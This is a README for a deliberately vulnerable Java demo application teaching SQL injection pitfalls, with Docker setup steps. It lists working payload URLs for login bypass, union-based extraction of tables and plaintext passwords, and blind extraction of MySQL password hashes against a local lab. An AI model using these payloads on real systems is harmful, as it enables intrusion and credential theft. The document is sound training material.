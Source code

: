 # SQL Injection in Java: Practices to Avoid

Thanks
    https://sec.okta.com/articles/2020/12/sql-injection-java-practices-avoid

### Requirements
* Docker desktop
* Java 8


### Start Mysql in Docker
Since we need to show vulnerabilities with Stored procedure and 'Principle of least privileges' we are using a Mysql
instance running in Docker

Build Docker image 

    cd mysql-in-docker/sqlinjection

    docker build -t sqlinjection_demo:latest .

Run docker 

    docker run -p 3307:3306 --name local-mysql -e MYSQL_ROOT_PASSWORD=11asd097asd -d sqlinjection_demo:latest

### Run the application

    Use IDEA to run the application, as then configuration works with DB correctly.
    
![img.png](img.png)

    As an option - MAVEN configuration can be used
![img_1.png](img_1.png)


NOTE: When starting application from the console with **MavenW** - in is necessary to assign proper ENV variables.

    cd ../../

    ./mvnw spring-boot:run


    
### Connect to mySql
To connect to mySql use

    Open terminal and run " docker exec -it local-mysql mysql -h 127.0.0.1 -P 3307 -uroot -p11asd097asd"  
    
    Feel free to inspect mySql content:
    mysql> "show schemas;"
    mysql> "show databases;"
    
    select * from employees.employee;       Note: initialized with the apllication
    select * from management.employee_review;
    SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES;
    SELECT * FROM INFORMATION_SCHEMA.TABLES; 
    select authentication_string from mysql.user where User='empdb_user'; 
    
        
# Additional info


    
Normal call

    http://127.0.0.1:8080/filterUserUnSafe?name=Frodo
    http://localhost:8080/loginJdbcUnSafe?name=Bilbo&password=secret
    
Simple SQLi

    http://localhost:8080/filterUserJdbcUnSafe?name=Bilbo'or'1'='1  

Simple SQLi to bypass login

    http://localhost:8080/loginJdbcUnSafe?name=1&password=1' or 1=1 and id='1    
    http://localhost:8080/loginJdbcUnSafe?name=1&password=1%27%20or%201=1%20and%20id=%271

Union based SQLi to get table_schema,table_name FROM information_Schema.tables
    
    http://localhost:8080/filterUserGlobalAccessUnSafe?name=Bilbo' union all select 1, concat(table_schema,'-----', table_name), table_name, 'STAFF'   from information_Schema.tables where '1'='1


Union based SQLi to get data from any table

    http://localhost:8080/filterUserGlobalAccessUnSafe?name=Bilbo’ union all select 1, concat(review,’-----',rating),review,  ‘STAFF’  from management.employee_review where ‘1’=’1


Union based SQLi to get plain passwords
    
    http://localhost:8080/filterUserGlobalAccessUnSafe?name=Bilbo' union all select 1, concat(name,'-----',password), password, 'STAFF'   from employees.employee where '1'='1

Blind SQLi to get chars from mysql.user
    
    http://localhost:8080/loginJdbcUnSafe?name=Bilbo&password=secret' and (select CASE WHEN (substring(authentication_string,1,1) = '$' ) THEN true ELSE false END from  mysql.user where User = 'empdb_user') or ' 

?    
Blind SQL injection to get some data from INFORMATION_SCHEMA

    http://localhost:8080/loginJdbcUnSafe?name=Bilbo&password=secret%27%20and%20(select%20CASE%20WHEN%20(substring(authentication_string,1,1)%20=%20%27$%27%20)%20THEN%20true%20ELSE%20false%20END%20from%20%20mysql.user%20where%20User%20=%20%27empdb_user%27)%20or%20%27    